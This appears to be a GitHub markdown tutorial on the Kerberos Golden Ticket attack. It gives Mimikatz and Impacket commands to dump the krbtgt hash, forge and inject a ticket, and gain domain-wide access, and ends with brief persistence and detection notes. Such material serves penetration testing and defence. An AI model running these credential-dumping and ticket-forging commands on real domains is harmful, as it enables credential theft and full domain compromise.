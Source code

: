 A **Golden Ticket** attack allows an attacker to forge Kerberos **Ticket Granting Tickets (TGTs)** by using the **krbtgt account hash** of a domain.  
With this forged TGT, the attacker can impersonate **any user (including Domain Admins)** and obtain unrestricted access to domain resources.

---

## Requirements

- **krbtgt account hash** (NTLM/RC4 or AES key) and the **domain SID**.
- A tool to forge and inject Kerberos tickets (e.g., **Mimikatz**, **Impacket**).
- Access to a system inside the domain or a system that can use Kerberos authentication.

---

## Using Mimikatz (.kirbi ticket injection)

### Step 1: Dump the krbtgt Hash

On a compromised Domain Controller or system with domain admin privileges:
```bash
mimikatz.exe
lsadump::lsa /inject /name:krbtgt
```

- Extract the **RC4/NTLM hash** of the krbtgt account.
- Note the **Domain SID**.

### Step 2: Create the Golden Ticket
```bash
kerberos::golden /domain:<domain_name> /sid:<domain_SID> /rc4:<krbtgt_NTLM_hash> /user:<username> /ticket:golden.kirbi
```

- The `/user:` can be any user (e.g., `Administrator`), even if it does not exist.

### Step 3: Transfer and Inject the Ticket

- Transfer the generated `golden.kirbi` file to the attack machine.
- Inject the ticket:
```bash
mimikatz.exe
kerberos::ptt golden.kirbi
exit
```

### Step 4: Use the Forged Ticket

- With the ticket loaded in memory, access privileged resources:
```bash
dir \\<domain_controller>\c$
```
- You now have domain-wide access as the chosen user.



## Using Impacket (Linux/Kali)

### Step 1: Generate a Golden Ticket

On Kali or any Linux host with Impacket:
```bash
ticketer.py -nthash <krbtgt_NTLM_hash> -domain-sid <domain_SID> -domain <domain_name> <username>
```
- This creates a **Kerberos ticket cache (.ccache)** for the specified user.


### Step 2: Export the Ticket

Set the Kerberos ticket as the active credential:

```bash
export KRB5CCNAME=/path/to/Administrator.ccache
```

### Step 3: Use the Ticket

Leverage the Kerberos ticket to authenticate to services (no password required). For example:
```bash
psexec.py -n -k <domain>/<username>@<target_ip> cmd.exe
```
- `-k` tells Impacket to use the Kerberos ticket stored in the `KRB5CCNAME` environment variable.


---

## Key Considerations

- **Persistence:**  
    Golden Tickets remain valid until the krbtgt password is reset **twice**.
    
- **Detection:**  
    Monitoring for unusual TGT lifetimes, anomalous logins, or unexpected Kerberos activity can help detect forged tickets.
    
- **Privilege:**  
    Full domain compromise is usually required to obtain the krbtgt hash (e.g., from a Domain Controller).
